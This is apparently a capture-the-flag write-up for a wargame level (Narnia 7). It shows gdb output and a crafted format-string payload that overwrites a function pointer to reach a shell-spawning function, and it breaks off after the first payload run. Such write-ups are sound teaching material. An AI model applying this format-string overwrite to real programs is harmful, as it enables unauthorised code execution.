 The vulnerability in this exercise lies in `vuln()`:
```
snprintf(buffer, sizeof buffer, format);
```
The `snprintf` function writes from `format`, which is our argument, to `buffer`, with a max length of `sizeof buffer`. This function is vulnerable to format string exploitation, which we will use to over-write  the pointer `*ptrf` to point to `hackedfunction()` and get our shell. 

We'll set a breakpoint after `snprintf()`:
```
(gdb) disass vuln
Dump of assembler code for function vuln:
   0x080485cd <+0>:	push   ebp
   0x080485ce <+1>:	mov    ebp,esp
   0x080485d0 <+3>:	sub    esp,0xa8
   0x080485d6 <+9>:	mov    DWORD PTR [esp+0x8],0x80
[snip]
   0x08048680 <+179>:	call   0x80484c0 <snprintf@plt>
   0x08048685 <+184>:	mov    eax,DWORD PTR [ebp-0x8c]
   0x0804868b <+190>:	call   eax
   0x0804868d <+192>:	leave  
   0x0804868e <+193>:	ret    
End of assembler dump.
(gdb) break *vuln+184
Breakpoint 1 at 0x8048685
```
Let's do a test run:
```
(gdb) run AAAAAAAAAAAAAAA
Starting program: /narnia/narnia7 AAAAAAAAAAAAAAA
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd68c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/20xw $esp
0xffffd670:	0xffffd690	0x00000080	0xffffd903	0x08048238
0xffffd680:	0xffffd6e8	0xf7ffda94	0x00000000	0x080486e0[1]
0xffffd690:	0x41414141	0x41414141	0x41414141	0x00414141
0xffffd6a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6b0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) 
```
`[1]` is the value of `ptrf` that we need to overwrite. It currently points to `goodfunction`. Creating a breakpoint at `goodfunction` reveals this:
```
(gdb) break goodfunction
Breakpoint 2 at 0x80486e6
```
To start off, we'll need to include the location of `ptrf` into our buffer:
```
(gdb) run $(python -c 'print "A" * 8 + "\x8c\xd6\xff\xff" + "\x8d\xd6\xff\xff" + "\x8e\xd6\xff\xff" + "\x8f\xd6\xff\xff" + "%8$n"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /narnia/narnia7 $(python -c 'print "A" * 8 + "\x8c\xd6\xff\xff" + "\x8d\xd6\xff\xff" + "\x8e\xd6\xff\xff" + "\x8f\xd6\xff\xff" + "%8$n"')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd67c)
I guess you want to come to the hackedfunction...

```